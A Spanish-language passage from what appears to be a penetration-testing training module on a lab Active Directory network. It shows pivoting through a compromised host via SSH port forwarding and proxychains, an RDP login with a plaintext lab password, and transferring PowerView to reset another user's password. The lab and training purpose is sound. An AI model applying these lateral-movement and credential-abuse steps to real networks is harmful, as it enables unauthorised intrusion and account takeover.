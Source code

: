 Como nota al margen, podemos ver que todos los usuarios del dominio tienen acceso RDP sobre el host DEV01. Esto significa que cualquier usuario en el dominio puede acceder mediante RDP y, si pueden escalar privilegios, podrían potencialmente robar datos sensibles como credenciales. Esto vale la pena mencionarlo como un hallazgo; podemos llamarlo `Excessive Active Directory Group Privileges` y etiquetarlo como un riesgo medio. Si todo el grupo tuviera derechos de administrador local sobre un host, definitivamente sería un hallazgo de alto riesgo.

![text](https://academy.hackthebox.com/storage/modules/163/all_rdp.png)

Podemos usar [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) para cambiar la contraseña del usuario `ssmalls`. Vamos a hacer RDP al objetivo después de verificar que el puerto esté abierto. RDP facilitará la interacción con el dominio a través de una consola PowerShell, aunque todavía podríamos hacerlo a través de nuestro acceso reverse shell.

```r
proxychains nmap -sT -p 3389 172.16.8.20

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 13:35 EDT
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.20:80-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.20:3389-<><>-OK
Nmap scan report for 172.16.8.20
Host is up (0.11s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds 
```

Para lograr esto, podemos usar otro comando de reenvío de puertos SSH, esta vez `Local Port Forwarding`. El comando nos permite pasar todo el tráfico RDP a `DEV01` a través del host `dmz01` mediante el puerto local 13389.

```r
ssh -i dmz01_key -L 13389:172.16.8.20:3389 root@10.129.203.111
```

Una vez configurado este reenvío de puerto, podemos usar `xfreerdp` para conectarnos al host utilizando la redirección de unidades para transferir archivos de un lado a otro fácilmente.

```r
xfreerdp /v:127.0.0.1:13389 /u:hporter /p:Gr8hambino! /drive:home,"/home/tester/tools"
```

Notamos que solo obtenemos acceso a la consola ya que este servidor no tiene instalado el rol de Desktop Experience, pero todo lo que necesitamos es una consola. Podemos escribir `net use` para ver la ubicación de nuestra unidad redirigida y luego transferir la herramienta.

```r
c:\DotNetNuke\Portals\0> net use

New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
                       \\TSCLIENT\home           Microsoft Terminal Services
The command completed successfully.


c:\DotNetNuke\Portals\0> copy \\TSCLIENT\home\PowerView.ps1 .
        1 file(s) copied.
```
